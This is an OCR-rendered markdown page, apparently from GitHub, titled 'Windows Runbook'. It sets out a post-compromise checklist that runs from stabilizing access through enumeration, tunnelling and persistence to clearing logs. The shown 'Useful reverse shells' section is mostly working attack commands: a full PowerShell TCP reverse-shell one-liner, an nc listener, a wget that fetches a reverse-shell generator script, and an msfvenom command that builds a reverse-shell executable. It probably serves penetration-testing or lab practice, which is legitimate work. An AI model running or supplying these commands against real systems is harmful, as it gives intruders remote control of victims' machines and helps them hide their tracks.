 # Windows Runbook
* [Task List](#task-list)
* [Stabilize](#stabilize)
    * [Useful reverse shells](#useful-reverse-shells)
* [Install needed tools](#install-needed-tools)
* [Enumerate](#enumerate)
* [Establish tunnel](#establish-tunnel)
* [Establish persistance](#establish-persistance)
* [Automated Tools](#automated-tools)
* [Enumeration and Privilege Escalation](#enumeration-and-privilege-escalation)
    * [Basic User Enum](#basic-user-enum)
    * [Enumerate the machine](#enumerate-the-machine)
    * [WinPeas checklist](#winpeas-checklist)
    * [AD Checklist - Run this if you have valid AD creds](#ad-checklist---run-this-if-you-have-valid-ad-creds)

## Task List

- [ ] [Stabilize](#stabilize)
- [ ] [Copy tools to the target](#copy-tools-to-the-target)
- [ ] [Enumerate](#enumerate)
  - [ ] [System Info](#system-info)
  - [ ] [Permissions](#permissions)
  - [ ] [Processes and Services](#processes-and-services)
  - [ ] [Networking](#networking)
  - [ ] [Users and Groups](#users-and-groups)
  - [ ] [Tasks](#tasks)
  - [ ] [Logs](#logs)
  - [ ] [Installed software](#installed-software)
- [ ] [Finalize](#Finalize)
  - [ ] [Establish tunnel](#establish-tunnel)
  - [ ] [Copy information from the target](#copy-tools)
  - [ ] [Establish persistance](#establish-persistance)
  - [ ] [Clear logs]


## Stabilize
- Listen to reverse shell:
```bash
rlwrap nc -lvnp 443
```
### Useful reverse shells
- Powershell oneliner:

```cmd
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
- Base64 encoded powershell oneliner:
```bash

wget https://gist.githubusercontent.com/tothi/ab288fb523a4b32b51a53e542d40fe58/raw/40ade3fb5e3665b82310c08d36597123c2e75ab4/mkpsrevshell.py
python3 mkpsrevshell.py <ip> 443
```
- TCP reverse shell executable:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=443 -f exe > shell.exe
```